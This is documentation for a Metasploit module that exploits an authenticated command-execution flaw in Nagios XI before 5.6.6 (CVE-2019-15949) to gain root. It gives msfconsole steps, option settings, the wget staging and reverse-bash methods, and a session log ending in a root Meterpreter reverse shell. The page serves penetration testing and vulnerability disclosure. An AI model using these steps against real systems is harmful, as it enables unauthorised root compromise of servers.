 ## Introduction
This module exploits a vulnerability in Nagios XI before 5.6.6 in order to execute arbitrary commands as root.

The module first checks if the supplied credentials are valid and belong to a user with permissions to modify plugins. It then exploits these permissions by uploading a malicious plugin to the target and subsequently sending an HTTP GET request to profile.php?cmd=download. This request downloads a system profile from the server and in the process launches the getprofile.sh script as root via a passwordless sudo entry. This script executes the malicious plugin as root.

For all supported payloads other than cmd/unix/reverse_bash, the module first starts an HTTP Server to serve the payload, and then writes a wget request for the payload to the malicious plugin. When the plugin is executed, the target requests the payload, which is then sent to the target and executed as root. However, this method will only work if wget is installed on the target, which may not necessarily be true, for instance if Nagios XI is running on a minimal/custom CentOS installation. In the latter case, the payload cmd/unix/reverse_bash must be selected. If the module detects this payload, it does not start an HTTP Server, but writes the payload directly to the malicious plugin instead, thereby avoiding the need for a wget request. The payload cmd/unix/reverse_bash was chosen because it is the most likely payload to still work on a minimal Linux installation.

Valid credentials for a user with administrative privileges are required. This module was successfully tested on Nagios XI 5.6.5 running on CentOS 7.

## Vulnerable system
Nagios XI before 5.6.6.

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/nagiosxi_authenticated_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set SRVHOST [IP]`
6. Do: `set USERNAME [username]`
7. Do: `set PASSWORD [password]`
8. Do: `set payload [payload]`
9. Do: `set LHOST [IP]`
10. Do: `set LPORT [port]`
11. Do: `exploit`

## Options

1. `USERNAME`. The username to authenticate with. This user should have permissions to modify plugins. The default setting is `nagiosadmin`, which is the default admin account for Nagios XI systems.
2. `PASSWORD`. The password to authenticate with.
3. `Timeout`. The number of seconds to wait for the exploit to connect back. This value is set at 10 by default because it usually takes a while for the plugin to execute after the GET request to rofile.php?cmd=download is sent. If the module fails with a timeout error the first time, just run it again with a higher Timeout value.

## Scenarios

```
msf5 exploit(linux/http/nagiosxi_authenticated_rce) > show options

Module options (exploit/linux/http/nagiosxi_authenticated_rce):

   Name       Current Setting       Required  Description
   ----       ---------------       --------  -----------
   PASSWORD   P@ssw0rd!             yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.1           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                    yes       The target port (TCP)
   SRVHOST    192.168.1.2           yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080                  yes       The local port to listen on.
   SSL        false                 no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                     yes       Base path to NagiosXI
   Timeout    10                    yes       Number of seconds to wait for the exploit to connect back)
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME   nagiosadmin           yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf5 exploit(linux/http/nagiosxi_authenticated_rce) > run
[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Found Nagios XI application with version 5.6.5.
[*] Starting web server
[*] Using URL: http://192.168.1.2:8080/eFFP5lYvZ8eCnR0
[*] Uploading malicious 'check_ping' plugin...
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting for the plugin to request the final payload...
[*] 192.168.91.1:80 - Payload request received: /eFFP5lYvZ8eCnR0
[*] Sending payload...
[*] Sending stage (3021284 bytes) to 192.168.1.1
[*] Meterpreter session 1 opened (192.168.1.2:4444 -> 192.168.1.1:56510) at 2020-02-27 16:27:49 +0100
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.
[*] Server stopped.
sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0

```
## References
1. <https://github.com/jakgibb/nagiosxi-root-rce-exploit>
2. <https://nvd.nist.gov/vuln/detail/CVE-2019-15949>